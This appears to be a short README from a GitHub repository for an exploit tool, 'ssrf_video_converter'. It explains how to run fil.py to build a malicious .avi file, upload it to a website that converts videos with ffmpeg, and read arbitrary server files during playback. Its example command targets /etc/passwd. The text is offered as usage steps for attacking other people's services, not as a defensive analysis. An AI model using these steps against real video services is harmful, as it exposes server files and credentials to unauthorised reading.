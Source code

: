 # ssrf_video_converter

./fil.py file://<filename> file_read.avi
  
Upload file_read.avi to some website that processes videofiles

(on server side, done by the videoservice) ffmpeg -i file_read.avi output.mp4

Click "Play" in the videoservice.

If you are lucky, you'll the content of <filename> from the server.
  Run it as below:
  
./fil.py file://etc/passwd file_read.avi

